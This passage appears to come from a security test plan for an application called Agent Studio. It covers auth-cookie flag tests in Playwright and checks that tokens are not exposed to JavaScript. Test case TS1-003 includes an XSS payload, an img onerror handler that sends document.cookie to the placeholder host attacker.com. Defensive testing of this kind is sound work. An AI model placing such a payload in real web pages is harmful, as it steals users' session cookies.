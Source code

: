 **Automation:**
```typescript
// Playwright test
test('Authentication cookie has httpOnly flag', async ({ page }) => {
  await page.goto('/login');
  await page.fill('[name="email"]', 'test@example.com');
  await page.fill('[name="password"]', 'ValidPassword123!');
  await page.click('button[type="submit"]');

  const cookies = await page.context().cookies();
  const authCookie = cookies.find(c => c.name === 'AgentStudio.AuthToken');

  expect(authCookie).toBeDefined();
  expect(authCookie.httpOnly).toBe(true);
  expect(authCookie.secure).toBe(true);
  expect(authCookie.sameSite).toBe('Strict');
});
```

**PASS Criteria:** HttpOnly, Secure, SameSite=Strict all present

---

### TS1-002: XSS Token Theft Prevention

**Objective:** Verify tokens cannot be stolen via XSS injection

**Test Steps:**
1. Log in to Agent Studio
2. Navigate to browser console (DevTools)
3. Attempt to access authentication cookie via JavaScript:
   ```javascript
   console.log(document.cookie);
   localStorage.getItem('auth_tokens');
   sessionStorage.getItem('auth_tokens');
   ```

**Expected Result:**
- ✅ `document.cookie` does NOT include `AgentStudio.AuthToken` (httpOnly blocks access)
- ✅ `localStorage.getItem('auth_tokens')` returns `null` (tokens migrated to cookies)
- ✅ `sessionStorage.getItem('auth_tokens')` returns `null`

**PASS Criteria:** No authentication tokens accessible via JavaScript

---

### TS1-003: XSS Payload Injection Test

**Objective:** Verify XSS payloads cannot exfiltrate tokens

**Test Steps:**
1. Log in as test user
2. Create agent with malicious description:
   ```html
   <img src=x onerror="fetch('https://attacker.com/steal?cookie=' + document.cookie)">
   ```
3. View agent details page
4. Monitor network requests for exfiltration attempts
